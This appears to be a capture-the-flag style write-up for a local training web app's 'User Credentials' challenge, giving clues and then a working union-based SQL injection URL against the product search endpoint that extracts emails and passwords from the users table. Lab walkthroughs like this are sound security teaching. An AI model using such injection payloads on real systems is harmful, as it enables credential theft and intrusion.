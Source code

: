 # User Credentials

![image](../../../Assets/7-3.png)

## Clue provided

1. Gather information on where user data is stored and how it is addressed. Then craft a corresponding UNION SELECT attack.
2. Try to find an endpoint where you can influence data being retrieved from the server.
3. Craft a UNION SELECT attack string to join data from another table into the original result.
4. You might have to tackle some query syntax issues step-by-step, basically hopping from one error to the next

## Solution

### Identifying vulnerability

From intercepting login request, we can see that the application is sending a POST request to the following endpoint:

```
127.0.0.1:3000/rest/user/login
```

with json body:

```json
{
  "email": "<email>",
  "password": "<password>"
}
```

![image](../../../Assets/7-1.png)

### Exploiting the vulnerability

We can use union-based SQL injection to extract the user credentials. The database system in use is SQLite, which stores its user data in the `users` table.

```
http://127.0.0.1:3000/rest/products/search?q=%27))%20UNION%20SELECT%201,email,password,4,5,6,7,8,9%20FROM%20users--
```

![image](../../../Assets/7-2.png)

### Result

![image](../../../Assets/7-4.png)


